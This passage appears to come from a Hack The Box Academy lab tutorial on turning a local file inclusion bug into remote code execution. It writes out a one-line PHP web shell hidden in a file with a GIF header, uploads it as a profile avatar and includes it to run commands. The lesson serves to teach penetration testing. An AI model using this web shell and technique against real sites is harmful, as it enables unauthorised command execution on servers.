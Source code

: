 **Crafting Malicious Image**

Our first step is to create a malicious image containing a PHP web shell code that still looks and works as an image. So, we will use an allowed image extension in our file name (e.g. `shell.gif`), and should also include the image magic bytes at the beginning of the file content (e.g. `GIF8`), just in case the upload form checks for both the extension and content type as well. We can do so as follows:

```shell-session
root@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

Note: We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module goes more in depth for file type attacks, and the same logic can be applied here.

Now, we need to upload our malicious image file. To do so, we can go to the `Profile Settings` page and click on the avatar image to select our image, and then click on upload and our image should get successfully uploaded:

![](https://academy.hackthebox.com/storage/modules/23/lfi\_upload\_gif.jpg)

**Uploaded File Path**

Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

Note: As we can see, we can use \`/profile\_images/shell.gif\` for the file path. If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:

![](https://academy.hackthebox.com/storage/modules/23/lfi\_include\_uploaded\_gif.jpg)

As we can see, we included our file and successfully executed the `id` command.

Note: To include to our uploaded file, we used `./profile_images/` as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to `../` out of that directory and then use our URL path, as we learned in previous sections.

***

### Zip Upload
